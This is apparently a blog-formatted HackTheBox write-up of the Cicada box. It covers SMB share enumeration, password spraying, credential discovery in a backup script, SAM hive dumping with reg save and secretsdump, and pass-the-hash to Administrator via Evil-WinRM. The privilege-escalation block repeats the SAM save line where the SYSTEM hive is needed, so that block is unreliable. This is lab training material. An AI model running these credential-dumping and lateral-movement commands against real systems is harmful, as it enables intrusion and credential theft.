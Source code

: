 ```yaml
---
layout: post
title: Test-post
date: 2025-02-12 13:34 +0100
description:
image:
author: lone
category: HackTheBox
tags: htb box
published: true
sitemap: false
---
```


## Inital access

From the nmap scan we can see that there are mutliples ports open.
In this case we will focus on the port 445 (smb):

`![nmap_scan](assets/nmap_scan.png)`

Using `smbclient` we can list the shares available:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares 
```

`![shares](assets/shares.png)`

Using the following command, the list of the readable shares is returned:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares --filter-shares READ WRITE
```

`![shares_filter](assets/shares_filter.png)`

Using smbclient we can access the share `HR`:

```bash
smbclient -no-pass guest@10.10.11.35
use HR
```

`![HR_share](assets/HR_share.png)`

The file `Notice from HR.txt` can be retrieved and contains the following information:

> Dear new hire!
>
> Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.
>
>Your default password is: "PASSWORD"
>
>To change your password:
>
>1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
>2. Once logged in, navigate to your account settings or profile settings section.
>3. Look for the option to change your password. This will be labeled as "Change Password".
>4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
>5. After changing your password, make sure to save your changes.
>
>Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.
>
>If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at <support@cicada.htb>.
>
>Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!
>
>Best regards,
>Cicada Corp

A password is indicated but no username is provided.
The following command can be used to list all available users:

```bash
netexec smb 10.10.11.35 -u guest -p "" --rid-brute | grep "idTypeUser"
```

`![users](assets/users.png)`

The output of the command is saved to a file and the following command is used to extract the usernames:

```bash
sed -E 's/.*CICADA\\([^ ]+) .*/\1/' users.txt > usernames.txt
```

The following command is used to test the password with the found usernames:

```bash
netexec smb 10.10.11.35 -u usernames.txt  -p pass.txt
```

`![michael](assets/michael.png)`

The account of `michael.wrightson` is found to be valid.
Listing all the users with the found account, information about the user `david.orelious` is found:

```bash
netexec smb "10.10.11.35" -u 'michael.wrightson' -p pass.txt --rid-brute --users
```

`![david_password](assets/david_password.png)`

Using the same command as before, it is possible to see that david has access to the share `DEV`:

```bash
netexec smb "10.10.11.35" -u david.orelious -p david_pass.txt --shares --filter-shares READ WRITE
```

`![DEV](assets/DEV.png)`

Using smbclient, the share `DEV` can be accessed:

`![backup_script](assets/backup_script.png)`

The content of the retrieved file `backup_script.ps1` is the following:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The credentials of `emily.oscars` are found in the script. The credentials are those of a local user. It is possible to access emily's account using `Evil-WinRM`.
The first flag is found in the Desktop of emily's account:

`![user_flag](assets/user_flag.png)`

## Privilege escalation

Using `whoami /priv` the following information is found:

`![priv](assets/priv.png)`

This privilege allows the user to retrieves the system hives. The following command is used to retrieve the hives:

```powershell
reg save hklm\sam sam.hive
reg save hklm\sam sam.hive
```

`![hives](assets/hives.png)`

After the hives are retrieved, `secretsdump` is used to extract the hashes:

```bash
secretsdump -outputfile dump.txt -sam SAM -system SYSTEM LOCAL
```

`![hashes](assets/hashes.png)`

With the hash of the user `Administrator`, it is possible to use `Evil-WinRM` to access the account:

```bash
evil-winrm -u administrator -H 2b87e7c93XXXX -i 10.10.11.35
```

The root flag is found in the Desktop of the Administrator account:

`![root](assets/root.png)`
